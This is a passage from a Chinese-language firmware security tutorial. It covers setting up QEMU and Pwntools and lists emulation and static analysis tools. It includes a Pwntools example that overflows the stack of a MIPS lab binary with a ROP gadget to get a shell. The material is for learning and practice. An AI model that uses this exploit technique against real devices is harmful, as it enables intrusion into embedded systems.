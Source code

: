 QEMU是一个通用的开源机器和用户空间模拟器和虚拟化器。  
  
**安装**  
```
$ sudo apt-get install qemu-user-static qemu-user -y
```  
  
**运行**  
```
$ qemu-mips-static ./hello
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSa246NC4j20AribErjayVp6dvy7luibWPBK7ZnGyaGEwGlS5bNAeEPR5ujHBicet3ibmXnAvJ1k1leRg/640?wx_fmt=png "")  
#### 2.2.5 Pwntools安装  
  
Pwntools是一个CTF框架和开发库。它是用Python编写的，用于快速原型设计和开发，旨在使开发编写尽可能简单。  
  
**安装**  
```
$ pip install pwntools -i https://pypi.douban.com/simple
```  
  
**使用 - 例子**  
```
from pwn import *name = "./pwnable/Intro/stack_bof_01"libc_base = 0x7f6e5000  #libc.so.0gadget_addr = libc_base + 0x6b20 # lw $t9,0($sp) jalr t9offset = 204dat_shell = 0x400950payload = b'A' * offsetpayload += p32(gadget_addr)payload += p32(dat_shell)p = process(['chroot','.','./qemu-mipsel-static','-L','.',name,payload ])context.endian = "little"context.arch = "mips"p.interactive()
```  
### 2.3 常见固件模拟仿真框架  
- Firmadyne  
  
对基于Linux的嵌入式固件进行仿真和动态分析的自动化和可扩展系统  
- FirmAE - (Firmadyne改进版)  
  
FirmAE是一个完全自动化的框架，用于执行仿真和漏洞分析。FirmAE通过五种仲裁技术显著提高了模拟成功率（从Firmadyne的16.28%提高到79.36%）。  
- Qiling  
  
一种先进的二进制仿真框架，基于Unicorm进行改进及优化。  
  
  
**#****03****‍**  
  
  
**「 漏洞分析方式 」**  
  
##   
### 3.1 静态分析  
  
静态分析是一种通过在不运行程序的情况下对代码进行检查来识别代码中潜在问题和错误的技术。它可以被用来发现代码中的漏洞、缺陷和安全问题等。  
  
**工具选择**  
- IDA  
  
商用 -DataRescue公司出品的一款交互式反汇编工具 - 建议版本大于等于7.5(7.5版本以上支持MIPS反汇编)  
- Ghidra  
  
开源 - Ghidra 是由美国国家安全局（NSA，National Security Agency）的研究理事会为 NSA 的网络安全任务开发的软件逆向工程（SRE）框架，它有助于分析恶意代码和病毒等恶意软件，并可以让网络安全专业人员更好地了解其网络和系统中的潜在漏洞。  
- Binary Ninja  
  